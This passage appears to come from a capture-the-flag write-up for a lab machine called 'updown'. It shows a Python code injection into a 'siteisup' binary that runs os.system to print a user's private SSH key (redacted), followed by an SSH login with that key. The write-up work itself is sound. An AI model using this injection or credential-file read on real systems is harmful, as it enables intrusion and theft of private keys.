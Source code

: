 ```bash
:*3$"                                                                                                              
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0                                                                         
crtstuff.c                                                                                                         
deregister_tm_clones                                                                                               
__do_global_dtors_aux
```

Here is how to exploit this code injection.

```bash
www-data@updown:/home/developer/dev$ ./siteisup                                                                    
./siteisup                                                                                                         
Welcome to 'siteisup.htb' application                                                                              
                                                                                                                   
Enter URL here:__import__('os').system('cat /home/developer/.ssh/id_rsa')                                          
__import__('os').system('cat /home/developer/.ssh/id_rsa')                                                         
-----BEGIN OPENSSH PRIVATE KEY-----
						SSH KEY
-----END OPENSSH PRIVATE KEY-----
```

With this key we can ssh to the victim as developer.

```bash
➜  ssh developer@siteisup.htb -i ssh-key2                                                            
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)                                                 
                                                                                                                   
 * Documentation:  https://help.ubuntu.com                                                                         
 * Management:     https://landscape.canonical.com                                                                 
 * Support:        https://ubuntu.com/advantage                                                                    
                                                                                                                   
  System information as of Sun Dec 25 15:06:59 UTC 2022                                                            
                                                                                                                   
  System load:           0.0                                                                                       
  Usage of /:            50.0% of 2.84GB                                                                           
  Memory usage:          15%                                                                                       
  Swap usage:            0%                                                                                        
  Processes:             225                                                                                       
  Users logged in:       0                                                                                         
  IPv4 address for eth0: 10.10.11.177                                                                              
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9859                                                             
                                                                                                                   
```